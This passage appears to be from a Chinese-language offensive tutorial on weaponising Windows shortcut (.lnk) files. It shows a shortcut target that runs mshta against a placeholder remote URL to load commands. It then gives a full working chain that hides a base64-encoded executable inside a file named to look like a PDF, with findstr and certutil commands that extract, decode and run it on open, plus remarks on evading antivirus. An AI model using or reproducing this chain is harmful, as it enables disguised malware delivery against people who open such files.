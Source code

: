 相当于远程执行命令，可通过`mshta`、`powershell`、`msiexec`、`bitsadmin`等方式加载远程指令

以mshta为例，快捷方式指向的目标设置为: `C:\Windows\System32\mshta.exe http://xx.xxx/x`

当然，以这种形式很很容被检测到，且直接执行这种敏感命令也很难做到免杀。

# 0x03 执行自身的恶意代码

相对于上面的需要从远程加载恶意代码，此方式会将恶意代码藏在`lnk`文件本身中，运行时解密释放对应的恶意代码，实现利用

示例：

- 将base64编码后的恶意代码追加至 lnk 文件中
- 用`findstr`提取对应的恶意编码
- `certutil -decode`对恶意编码进行解码，输出至文件中
- `本地执行此文件`

这里以嵌入执行`calc.exe`为例

## 将恶意代码追加至`lnk`文件中

需要注意，在实际的处理中，这一步需要在`lnk`文件设置完后执行。否则更改了`lnk`的目标后，原本追加的内容会被清空。

```shell
printf '\x0d\x0a' >> evil3.pdf.lnk     # 回车换行
base64 -w 0 calc.exe >> evil3.pdf.lnk  # base64编码后追加进lnk文件
printf '\x0d\x0a' >> evil3.pdf.lnk     # 回车换行
```

## findstr提取对应的恶意编码

可以观察到，base64编码后的前缀是 `TVqQAAMAAAAEAAA`，我们可通过`findstr`对自身进行查找，提取对应的恶意编码，输出至临时文件中。

```shell
copy evil3.pdf.lnk %temp%\e3   # 这里需要注意，findstr直接查找 lnk 文件时，会去查找对应的目标文件，所以需要复制自身为一个普通的二进制文件后再进行查找
findstr "TVqQAAMAAAAEAAA" %temp%\e3 > %temp%\ee3
```

## certutil 解码提取源文件

```shell
certutil -decode %temp%\ee3 %temp%\e.exe
```

## 具体实现

创建快捷方式，设置其目标为

```
C:\Windows\System32\cmd.exe /c copy /y evil3.pdf.lnk %temp%\e3 & findstr "TVqQAAMAAAAEAAA" %temp%\e3 > %temp%\ee3 & certutil -decode %temp%\ee3 %temp%\e.exe & %temp%\e.exe
```

在其后追加回车换行及`calc.exe`对应的base64编码，即可完成
